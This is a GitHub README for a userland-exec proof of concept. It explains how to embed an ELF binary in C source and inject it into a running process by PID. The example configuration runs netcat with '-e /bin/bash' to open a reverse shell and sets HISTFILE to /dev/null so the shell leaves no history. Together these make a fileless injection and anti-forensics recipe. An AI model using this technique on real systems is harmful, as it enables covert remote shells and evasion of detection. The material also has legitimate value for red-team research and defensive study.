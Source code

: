 # userland exec poc
userland exec poc

## Usage
1. download the latest [userland-exec](https://github.com/shuichiro-endo/userland-exec)
```
git clone https://github.com/shuichiro-endo/userland-exec.git
cd userland-exec
```
2. output an elf file you want to run to elffile.h file (e.g. /usr/bin/nc)
```
xxd -i /usr/bin/nc > elffile.h
```
3. get a variable from elffile.h file (e.g. unsigned char _usr_bin_nc[])
```
head -1 elffile.h
```
4. modify ulexec.c file (exec_file, env_string, env_count, argv_string and argv_count)
```
// head -1 elffile.h
// e.g. unsigned char _usr_bin_nc[] = {
unsigned char *exec_file = _usr_bin_nc;

char *env_string[] = {
"PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:", 
"SHELL=/bin/bash", 
"HISTFILE=/dev/null", 
"\0", 
"\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0"};	// do not delete

int env_count = 3;

// e.g. nc -e /bin/bash 127.0.0.1 1234
char *argv_string[] = {
"-e", 
"/bin/bash", 
"127.0.0.1", 
"1234", 
"\0", 
"\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0"};	// do not delete

int argv_count = 5;	// exec file name + argv_string
```
5. build
```
gcc ulexec.c -o ulexec
```
6. run ulexec
```
userland exec
usage         : ./ulexec -p target pid
example       : ./ulexec -p 12345
```

## License
This project is licensed under the MIT License.

See the [LICENSE](https://github.com/shuichiro-endo/userland-exec/blob/main/LICENSE) file for details.


